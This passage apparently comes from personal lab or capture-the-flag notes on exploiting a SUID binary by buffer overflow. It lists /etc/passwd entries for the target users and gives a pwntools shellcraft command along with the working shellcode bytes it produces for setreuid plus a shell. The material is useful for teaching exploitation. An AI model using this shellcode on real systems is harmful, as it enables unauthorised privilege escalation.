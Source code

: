 
As what we want to exploit is the executables suid permission we need to set the uid in the shellcode we run. 

[[../../../Tools n Info/27 - asm, Buffer Overflow, debug/Buffer Overflow/11 - SUID binaries|11 - SUID binaries]]

For this we need the users uid from /etc/passwd:
```sh
...
reynard:x:1000:1000:Reynard,,,:/home/reynard:/bin/bash
anansi:x:1001:1001:Anansi,,,:/home/anansi:/bin/bash
puck:x:1002:1002:Puck,,,:/home/puck:/bin/bash
```

We will use pwntools shellcraft functionality to get the code we need:
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.setreuid 1001 + amd64.linux.sh
\x31\xff\x66\xbf\xe9\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

This gives us the shellcode to use later.
